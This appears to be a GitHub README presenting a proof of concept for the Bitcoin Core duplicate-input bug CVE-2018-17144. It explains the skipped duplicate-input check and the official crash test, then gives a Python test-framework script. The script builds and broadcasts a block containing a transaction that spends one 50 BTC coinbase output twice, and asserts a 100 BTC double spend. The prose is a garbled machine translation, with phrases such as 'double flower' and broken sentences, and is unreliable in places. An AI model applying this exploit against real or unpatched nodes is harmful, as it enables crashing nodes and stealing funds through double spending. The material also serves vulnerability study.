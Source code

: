 # PoC of BitcoinCore Denial-Of-Service and DoubleSpending CVE-2018-17144
On 18/19 September, bitcoin Core, the mainstream client of Bitcoin, published an article on the serious security of its code.
A denial-of-service vulnerability exploitable by miners has been discovered in Bitcoin Core versions 0.14.0 up to 0.16.2. It is recommended to upgrade any of the vulnerable versions to 0.16.3 as soon as possible. 
bitcoincore.org : Security issue CVE-2018-17144: it was discovered that older versions of Bitcoin Core will crash if they try to process a block containing a transaction that attempts to spend the same input twice. Such blocks are invalid, so they can only be created by a miner willing to sacrifice their allowed income for creating a block of at least 12.5 BTC (about $80,000 USD as of this writing). This release eliminates the crash, allowing the software to quietly reject such invalid blocks.
# Vulnerability disclosure
On the master code branch of Bitcoin Core, commit b8f8019 fixes this vulnerability, such as :  https://github.com/bitcoin/bitcoin/commit/b8f801964f59586508ea8da6cf3decd76bc0e571
This code is located in the CheckBlock() function in src/validation.cpp, which receives new in the node.
The block is called. The meaning of the CheckTransaction() function called on line 3125 and its third argument can be
Analyze according to its code implementation.
``` 
bool CheckTransaction(const CTransaction& tx, CValidationState &state, bool CheckDuplicateInputs)
{
  // ......
  // Check for duplicate inputs - note that this check is slow so we skip it in CheckBlock
  if (fCheckDuplicateInputs) {
    std::set<COutPoint> vInOutPoints;
    for (const auto& txin : tx.vin)
    {
      if (!vInOutPoints.insert(txin.prevout).second)
        return state.DoS(100, false, REJECT_INVALID, "bad-txns-inputs-duplicate");
    }
    }
    // ...... 
}
```
####  CheckTransaction() function
The CheckTransaction() function detects incoming transaction messages (CTransaction&tx), where
This includes detecting whether a transaction has a double flower. The detection scheme is very simple and will compare this to all Coin used in the transaction.
(Ttex.prevout in the code, which represents UTXO in Bitcoin transactions. This article is followed by the word Coin.
Representation, in order to be consistent with the code), is recorded in std::set, if it is found that a record is repeatedly recorded twice, it will return
Back to the failed message (state.DoS), this message will eventually be fed back to the sender of the block through the P2P channel.
Based on the comments section in the code snippet, it can be seen that this detection code is in the process of being called by the CheckBlock() function.
It is considered redundant and time consuming, and is skipped by setting the third parameter of the function to False.
CheckBlock() performs a selection to skip the double-check, because its subsequent actions will be more for transactions in the entire block.
Complex and comprehensive inspection. However, these inspection codes failed to detect and dispose of certain anomalies as expected.
Caused the existence of a loophole.

## DoS Attack PoC
Bitcoin's master code branch, commit b8f8019 (the vulnerability fix mentioned earlier)
The child commit 9b4a36e gives the validation code for the vulnerability.
This test code written in Python is located at test/functional/p2p_invalid_block.py
In the script. The script builds a test network, and the test code can be connected via RPC interface, P2P interface, etc.
Go to the target node and send test data, such as maliciously constructed block data, transaction information, and so on.
The function of the trial code is to find the second transaction (vtx[2]) in the block2_orig block and enter the transaction into it.
The first Coin(vtx[2].vin[0]) is repeatedly added to the input sequence to construct a vtx[2].vin[0]
Make a double spend transaction message. As shown in line 92, when the block2_orig block is sent to the node side of the fixed vulnerability,
The node will receive a refusal to receive the message, and the message content is “bad-txns-duplicate”.
If you use the code for this test to test a node that has not been fixed.
The block data maliciously constructed by the test script caused the target node to crash, resulting in the Python script and the node process.
The P2P connection between them is broken, causing a ConnectionResetError to be thrown.

## Double Spend Attack PoC

The official PoC gives an indication of the DoS attack. However, this PoC is in a test network with only one node
Run, and the unlock script for all transaction data is set to "anyone can spend." Due to its particularity, for
Verify that the double-spend attack lacks a certain persuasive power. Therefore, this article is based on the test framework of Bitcoin Core.

The three roles in the test are shown in As N0 and N1. N0 stands for attacker maliciously written using Python programs
P2P service, constructing malicious block data; N1 represents one of many normal nodes, and is a neighbor node of N0.Pass the P2P interface for message delivery. The key code of the test script is as follows.


``` 
def run_test(self):
  # Preparation Works ...... # Generate the block1 to let node0 get 50 BTC as the initial funding
  block1 = create_block(tip, create_coinbase(height, n0_pubk), block_time)
  block1.solve()
  node0.p2p.send_blocks_and_test([block1], node0, success=True, timeout=60)
  # Mature the block, make the mined BTC usable. node0.generatetoaddress(100, node0.get_deterministic_priv_key().address)
  assert(node0.getbalance() == 50) # node0 get the reward as a miner
  # craft a new transaction, which double spend the coinbase tx in block1
  tx2_raw = node0.createrawtransaction(
    inputs = [{"txid": block1.vtx[0].hash, "vout": 0}, {"txid": block1.vtx[0].hash, "vout": 0}], 
    outputs = {n1_addr: 100}
  )
  tx2_sig = node0.signrawtransactionwithwallet(tx2_raw)
  assert_equal(tx2_sig["complete"], True)
  tx2_hex = tx2_sig["hex"]
  tct2 = CTransaction()
  tct2.deserialize(BytesIO(hex_str_to_bytes(tx2_hex)))
  # Preparation for generate block2 ......
  block2 = create_block(tip, create_coinbase(height), block_time)
  block2.vtx.extend([tct2])
  block2.hashMerkleRoot = block2.calc_merkle_root()
  block2.solve()
  node0.p2p.send_blocks_and_test([block2], node0, success=True, timeout=60)
  # Check the balances
  assert(node0.getbalance() == 0)
  assert(node1.getbalance() == 100)
  self.log.info("Successfully double spend the 50 BTCs.")
```








